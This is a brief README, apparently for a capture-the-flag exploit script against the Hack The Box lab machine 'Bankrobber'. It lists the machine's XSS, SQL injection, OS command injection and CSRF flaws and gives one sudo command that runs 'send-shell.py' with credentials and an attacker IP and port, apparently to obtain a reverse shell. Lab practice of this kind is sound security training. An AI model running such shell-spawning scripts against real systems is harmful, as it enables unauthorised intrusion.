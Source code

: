 # Bankrobber

[Bankrobber Machine](https://www.hackthebox.com/machines/bankrobber)

Identified Vulnerability:
- Cross Site Scripting (XSS)
- SQL Injection
- OS Command Injection
- Cross Site Request Forgery (CSRF)

Note: run it as sudo since using impacket-smbserver as root
```
sudo python3 send-shell.py -t bankrobber.htb -u ardias -p ardias -ip 10.10.14.9 -po 5555
```

